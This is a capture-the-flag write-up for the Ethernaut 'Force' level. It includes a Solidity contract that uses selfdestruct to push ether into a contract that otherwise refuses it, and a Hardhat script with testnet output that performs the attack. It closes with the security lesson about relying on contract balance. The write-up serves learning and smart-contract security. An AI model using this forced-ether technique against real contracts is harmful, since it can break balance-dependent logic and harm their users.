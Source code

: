 ```yaml
---
title: Ethernaut Force
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Force challenge writeup
---
```


## Force

### Challenge

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Background

This challange was the first I didn't know how to solve and needed to check. It turns out when a contract `selfdestruct`s it can choose where its funds should go. And one option is to send all funds to a different contract. In this case the contract will accept the funds.

### Attack

Create a contract with `selfdestruct` functionality, send funds to it and trigger the `selfdestruct` with the address of the `Force` contract.

* Create a contract that can `selfdestruct`
* Call the `selfdestruct` functionality on the contract with the `Force` address argument and send some value to it

#### ForceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceSolve {

  constructor() public {}

  function send(address payable _forceAddress) public payable {
    selfdestruct(_forceAddress);
  }
}
```

#### force-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    forceAddress = "0x5B4656e37375734215B0C4dB0fFE6548009C9c26";
    contract = await ethers.getContractAt("Force", forceAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ForceSolve = await ethers.getContractFactory("ForceSolve");
    forceSolve = await ForceSolve.deploy();
    await forceSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // send funds buy calling selfdestruct
    tx = await forceSolve.connect(account).send(contract.address, { value: 1 })
    receipt = await tx.wait()

    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/force-solve.js --network rinkeby
Level address   : 0x5B4656e37375734215B0C4dB0fFE6548009C9c26
Contract Balance: 0
Contract Balance: 1
```

### Success Message

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
